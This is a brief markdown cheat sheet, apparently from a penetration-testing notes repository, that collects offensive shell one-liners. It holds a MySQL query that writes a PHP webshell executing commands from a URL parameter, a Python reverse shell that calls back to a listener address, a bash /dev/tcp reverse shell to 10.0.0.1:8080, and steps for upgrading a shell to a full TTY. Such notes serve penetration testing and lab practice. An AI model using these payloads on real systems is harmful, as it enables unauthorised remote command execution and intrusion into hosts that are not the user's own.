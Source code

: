 # Shells

## Webshell

### Mysql

```bash
SELECT '<?php passthru($_GET[cmd]);?>' INTO OUTFILE '<file_location>/<filename>'
```
---
## Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip_listener>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
---
## Reverse shell bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
---
## Get better shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
ctrl + z
stty raw -echo
fg
reset
```
> does not work for ZSH, use BASH !